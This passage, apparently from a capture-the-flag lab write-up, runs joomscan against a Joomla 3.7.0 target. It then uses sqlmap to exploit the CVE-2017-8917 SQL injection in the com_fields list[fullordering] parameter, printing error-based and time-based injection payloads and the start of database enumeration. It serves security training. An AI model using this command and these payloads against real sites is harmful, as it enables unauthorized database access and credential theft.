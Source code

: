 Running Joomscan reveals that the version is 3.7.0.

~~~
unknown@kali:/data/tmp$ joomscan --url http://10.10.233.69
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.233.69 ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[REDACTED]
~~~

Answer: `3.7.0`

## #2.2 - What is Jonah's cracked password? (Instead of using SQLMap, why not use a python script!)

*Hint: SQLi & JohnTheRipper*

We can confirm that this version of Joomla is vulnerable to [CVE-2017-8917](https://www.exploit-db.com/exploits/42033) with sqlmap:

~~~
unknown@kali:/data/tmp$ sqlmap -u "http://10.10.233.69/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]

[REDACTED]

GET parameter 'list[fullordering]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 2547 HTTP(s) requests:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 7187 FROM(SELECT COUNT(*),CONCAT(0x717a767071,(SELECT (ELT(7187=7187,1))),0x7178786a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9077 FROM (SELECT(SLEEP(5)))sqVI)
---
[16:54:41] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[16:54:42] [INFO] fetching database names
[16:54:42] [INFO] retrieved: 'information_schema'
~~~
